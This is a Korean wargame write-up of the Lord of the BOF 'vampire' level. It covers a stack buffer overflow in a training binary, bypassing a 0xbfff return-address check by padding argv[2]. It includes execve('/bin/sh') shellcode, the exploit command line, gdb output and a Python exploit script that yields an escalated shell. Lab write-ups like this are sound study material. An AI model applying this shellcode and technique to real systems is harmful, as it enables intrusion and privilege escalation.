 ```yaml
---
title: "[LOB]Level09. vampire"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180009
category: write-up
date: 2018-08-29 04:00:00 +0900
modify_date: 2024-04-26
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```


[Check 0xBFFF](#){:.button.button--outline-success.button--pill}
> troll / aspirin

-----

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

RET 주소의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.

- buffer 배열 크기 40byte
- RET 첫 1byte '\xbf'로 시작
- **RET 두번째 1byte '\xff' 검증**
- strcpy를 이용하여 argv[1] 인자 값을 buffer 배열로 복사

스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.  
어떻게하면 0xbfffxxxx 영역이 아닌 곳에 shellcode를 넣을까 고민을하다가 무식한(?) 방법을 알게됐다.  
**argv[2]의 많은 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들면된다.** 😅

<br>

확인해보자.

```shell
[troll@localhost troll]$ ./aampire `python -c 'print "\x90"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*70000'`

릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜
Segmentation fault (core dumped)
```

```shell
[troll@localhost troll]$ gdb -c core -q
Core was generated by `./aampire 릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜 릱릱릱릱릱릱릱릱릱릱'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfffff in ?? ()
(gdb) x/4x $esp
0xbffeeb50:     0x00000000      0xbffeeb94      0xbffeeba4      0x40013868
```

argv[2]에 NULL값을 70000개 넣었더니 esp값이 0xbffexxxx 영역을 가리키고 있는 것을 확인하였다.



```
(gdb) x/100x $esp
=====================================(생략)================================
0xbffeec80:     0x00000000      0x38366900      0x2f2e0036      0x706d6161
0xbffeec90:     0x00657269      0x90909090      0x90909090      0x90909090
0xbffeeca0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecb0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecc0:     0xbfbfffff      0x90909000      0x90909090      0x90909090
0xbffeecd0:     0x90909090      0x90909090      0x90909090      0x90909090
(gdb)
```

그리고 실제 Shell Code가 올라가는 주소는 `0xbffeeca0` 근처 인것도 확인하였다.

-----

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```shell
[troll@localhost troll]$ ./vampire `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xa0\xec\xfe\xbf"'` `python -c 'print "\x90"*70000'`
릱릱릱릱릱릱릱릱릱릱1픐h//shh/bin됥PS됣솻
                                         ?좎
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```

-----

### 0x03. 정리

RET 주소 값이 `0xbfff~` 로 시작하는 주소이면 동작하지 않도록 로직이 추가되었고,  
shellcode를 `0xbfff~` 주소가 아닌 다른 곳에 넣기위해 argv[2]에 많은 쓰레기 값을 넣어 `0xbffe~` 주소에 shellcode가 올라가게끔 우회하였다.

-----
```python
import os
import struct

append = lambda x, y: x + y
p32 = lambda x: struct.pack("<I", x)

target = "/home/troll/vampire"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
shellcode_addr = 0xbffeeca0

payload1 = "\x90"*20
payload1 = append(payload1, shellcode)
payload1 = append(payload1, p32(shellcode_addr))

payload2 = "\x90"*70000

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload1, payload2))
else:
        os.waitpid(pid, 0)
```

-----

